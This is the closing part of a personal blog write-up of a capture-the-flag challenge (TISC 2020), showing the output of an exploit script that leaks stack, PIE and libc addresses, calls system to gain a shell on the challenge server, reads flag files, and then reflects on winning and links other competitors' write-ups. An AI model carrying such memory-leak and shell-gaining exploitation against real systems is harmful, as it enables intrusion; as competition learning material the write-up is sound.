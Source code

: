 {% endhighlight %}

With this shell, I first got the 6B flag and later got the 6A flag after I realised I submitted the wrong flag to 6A.
```
❯ python xpl.py remote
[+] Opening connection to fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg on port 42000: Done
[*] stack_leak: 0x7ffebd971e48
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[+] Finding base address: 0x560b07998000
[*] pie_base: 0x560b07998000
[*] libc_base: 0x7fba44955000
[*] system: 0x7fba449aa410
[*] Trying to win
[*] Switching to interactive mode
$ cd ~
$ ls
flag.txt
pwn6
$ cat flag.txt
TISC20{c4n_y0u_s33_anything?_042u843hfj34d92394}
$ strings pwn6 | grep TISC
TISC20{Ch3ckp01nt_1_349ufh98hd98iwqfkoieh938}
```
And with this the challenge was complete!

# Post-Challenge
Because of the nature of this CTF, I had to wait a few weeks before finding out my result. However, I eventually got to see that I won the challenge!

![]({{site.baseurl}}/ctf/tisc20/winners.png)

While my solutions were quite fast in the end, I do see a lot of room for improvement for my static reverse engineering. Also, just some feedback on the prizes, I don't think I just speak for myself but I think cash prizes would be more preferable to vouchers (even if the cash prize is lower in value). Other than that, this CTF was organised well and I had a very enjoyable time solving the challenges :).

## Appendix: Write-ups from other competitors!

* [Justin](https://blog.justins.in/tisc-20/)
* [spaceracoon/Eugene](https://spaceraccoon.dev/beat-the-clock-the-csit-infosecurity-challenge)
* [amon/Jeremy](https://nandynarwhals.org/tisc-2020-writeups/)